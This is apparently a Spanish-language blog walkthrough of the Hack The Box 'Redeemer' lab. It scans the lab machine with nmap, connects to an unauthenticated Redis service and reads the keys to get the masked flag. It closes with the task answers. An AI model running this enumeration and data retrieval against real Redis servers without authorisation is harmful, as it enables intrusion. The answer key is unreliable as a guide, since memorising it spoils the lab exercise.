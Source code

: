 ```yaml
---
title: HTB - Starting Point - Tier 0 - Redeemer Writeup
date: 2022-08-09 09:30:00 +0800
categories: [HTB, Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Con este post finalizamos la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Redeemer

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img05.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.213.71*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:46 CEST
Nmap scan report for 10.129.213.71
Host is up (0.12s latency).
All 1000 scanned ports on 10.129.213.71 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Ups !! ... nobody listen :(

Vamos a por todos los puertos utilizando la flag ```-p-```&nbsp;, no solo los 1000 de ```-A```&nbsp;.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A -p- 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:48 CEST
Nmap scan report for 10.129.213.71
Host is up (0.075s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.85 seconds
```

Ahora si. Tenemos el puerto *6379/tcp* con el servicio *redis* escuchando. Para los que no sepáis qué es **Redis** podéis informaros [aquí](https://redis.io/).

Utilizamos **redis-cli** para conectarnos con el comando ```-h```&nbsp; para indicarle el host.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ redis-cli -h 10.129.213.71
10.129.213.71:6379> 
```

Ejecutamos *info*

```console
[...]
10.129.213.71:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
[...]
10.129.213.71:6379>
```

Lanzamos un *select*, le pedimos todas las *keys* y volcamos con *get* la que nos interesa. Para mas info sobre estos comandos:

* [SELECT index](https://redis.io/commands/select/)
* [KEYS pattern](https://redis.io/commands/keys/)
* [GET key](https://redis.io/commands/get/)

```console
[...]
10.129.213.71:6379> select 0
OK
10.129.213.71:6379> keys *
1) "numb"
2) "flag"
3) "stor"
4) "temp"
10.129.213.71:6379> get flag
"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
10.129.213.71:6379>
```

Con esto completamos el **Tier 0** y se nos habilita el botón para pasar al siguiente nivel, el **Tier 1**.

Enhorabuena a los que habéis llegado hasta aquí.

## Respuestas:

* <strong>Task 1</strong>: 6379
* <strong>Task 2</strong>: redis
* <strong>Task 3</strong>: In-memory Database
* <strong>Task 4</strong>: redis-cli
* <strong>Task 5</strong>: -h
* <strong>Task 6</strong>: info
* <strong>Task 7</strong>: 5.0.7
* <strong>Task 8</strong>: select
* <strong>Task 9</strong>: 4
* <strong>Task 10</strong>: keys *